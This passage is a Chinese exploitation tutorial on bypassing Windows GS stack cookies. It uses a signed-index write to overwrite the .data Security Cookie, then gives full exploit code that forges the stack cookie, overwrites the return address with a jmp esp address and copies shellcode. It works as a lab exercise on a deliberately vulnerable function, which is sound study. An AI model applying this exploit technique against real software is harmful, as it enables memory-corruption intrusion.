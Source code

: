由此可以知道，想要突破 GS 保护，需要同时对保存在. data 中的 Cookie 和保存在栈中的 Cookie 进行修改。

考虑如下代码，此时的 buf 指针会指向一个堆空间，参数 i 因为是个有符号整型，因此当它为负数的时候依然会进入到 if 语句中，此时就可以通过计算堆变量的地址与. data 节中保存的 Security Cookie 的地址来得出 i 值应该如何输入可以改变. data 中的 Security Cookie。

```
void test(char *pSzInput, char *buf, int i)
{
    char szStr[0x8] = { 0 };
    if (i < 0x100)
    {
        *(PDWORD)(buf + i) = *(PDWORD)pSzInput;
        strcpy(szStr, pSzInput);
    }
}

```

经过调试器验证发现，申请的堆变量地址为 0x00455020，Security Cookie 的地址为 0x00460068，两者相差 - 0xB048。因此，当参数 i 的值为 - 0xB048 的时候，可以直接修改. data 中保存的 Security Cookie。此时，可以选择 0x90909090 作为修改以后的值，而同时还要获取程序在该函数运行到 Security Check 的时候寄存器 ebp 的值，这样才可以算出保存在栈中的 Security Cookie 的值。同样经过调试器验证发生，此时的 ebp 的值为 0x0012FDFC，与写入的 Security Cookie 的值进行异或得到的值是 0x90826E90。  

只要将栈中的 Security Cookie 和. data 中的 Security Cookie 的值修改到可以通过验证，剩下的工作就是最上面的修改返回地址为 jmp esp 的地址。最终完整的漏洞利用代码如下：

```
int main()
{
    char *buf = (char *)malloc(0x10000);
    char szInput[0x100] = { 0 };
    int iSize = 4;
 
    LoadLibrary("user32.dll");                          // MessageBox函数在该DLL中，需要将其导入才可以调用
     
    *(PDWORD)szInput = 0x90909090;                            // 用来修改.data中的Security Cookie值
    memset(szInput + iSize, 'A', iSize);                    // 覆盖局部变量szStr
    *(PDWORD)(szInput + iSize + iSize) = 0x90826E90;  // 覆盖栈中的Security Cookie
    memset(szInput + iSize + iSize + iSize, 'B', iSize);    // 覆盖ebp
    *(PDWORD)(szInput + iSize + iSize + iSize + iSize) = 0x7C961EED;         // 覆盖返回地址为jmp esp指令地址
    strcpy(szInput + iSize + iSize + iSize + iSize + iSize, g_szShellCode);   // 复制ShellCode
     
    test(szInput, buf, -0xB048);
     
    system("pause");
 
    return 0;
}

```

编译后程序后，在调试器中 strcpy 函数后面下断点，可以看到此时. data 中的 Security Cookie 已经被成功修改为 0x90909090，栈中的 Security Cookie 和返回地址也都被成功覆盖。  

![](https://bbs.pediy.com/upload/attach/202201/835440_TN3J3WHVYKAAJSA.jpg)

